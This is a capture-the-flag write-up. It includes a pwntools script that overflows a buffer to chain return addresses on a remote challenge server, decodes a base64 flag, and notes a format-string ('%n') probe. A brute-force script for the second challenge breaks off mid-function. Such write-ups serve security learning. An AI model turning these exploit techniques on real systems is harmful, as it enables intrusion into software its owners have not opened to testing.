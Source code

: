 we don't have a binary for this one. The server it tells us to connect to gives us three functions to return to and then tells us the return pointer before exiting.  I used cyclic to determine that the correct offset was 45 and then wrote a python script to read the addresses in and overwrite the return pointers correctly.  After successfully returning to all three functions it gives us this text. 

```python
from pwn import *

p = remote("ggcs-bh03.allyourbases.co", 1337)

print(p.recvuntil(": "))
three = int(p.recvuntil("\n"),16)
print("function three: ", hex(three))

print(p.recvuntil(": "))
two = int(p.recvuntil("\n"),16)
print("function two: ", hex(two))

print(p.recvuntil(": "))
one = int(p.recvuntil("\n"),16)
print("function one: ", hex(one))

print(p.recvuntil("you?"))

payload = cyclic(49-4) + p32(three) + p32(two) + p32(one) + p32(three)

p.sendline(payload)

p.interactive()
```

`RmxhZzogUmV
UVE9mdW5jVGl
PTi0xOTkw`

I tried rot13 once and then stuck it into cyberchef and played around with it.  It ended up being base64


flag: `ReTTOfuncTiON-1990`

## bx01

what the fuck

`111111111111111111111111111%n`
made it print out
`Object validated, contents is 'Right now I would be number 1'`

???


```python
import itertools
import string
from multiprocessing import Pool
from pwn import *
import tqdm

def check(i):
    p = remote('ggcs-bx01.allyourbases.co', 9171)
    p.recvuntil("> ")
    p.sendline(''.join(i))
    res = p.recvline()
    if b'Invalid' not in res:
        print("with: ", i)
        print("result: ", res)
```